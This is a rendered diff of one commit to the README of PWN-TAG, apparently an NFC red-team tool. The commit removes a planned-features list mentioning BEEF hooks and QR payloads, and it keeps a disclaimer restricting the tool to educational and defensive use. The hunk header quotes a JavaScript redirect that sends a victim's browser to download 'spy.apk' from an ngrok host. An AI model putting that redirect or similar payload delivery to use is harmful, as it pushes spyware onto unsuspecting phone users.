

Before and after one commit to ekomsSavior/PWN-TAG, a Markdown page: README.md, the part around the change. GitHub-like rendering; blank space fills up the shorter version.

```diff
--- a/README.md
+++ b/README.md
@@ -166,18 +166,3 @@ window.location.href = "https://pwn-tag.ngrok.app/payloads/spy.apk";
 
 This tool is intended for **educational use, red team simulation, and defense research only.**
 Do not deploy it against real targets without consent. You are responsible for your actions.
-
----
-
-##  Extras Coming Soon
-
-*  `setup_repo.sh` for auto-deployment
-*  `payloads/README.md` to explain demo files
-*  BEEF hook setup help
-*  QR payload variants for phones without NFC
-
----
-
-Tag smart.
-Pwn hard.
-— ek0ms
```
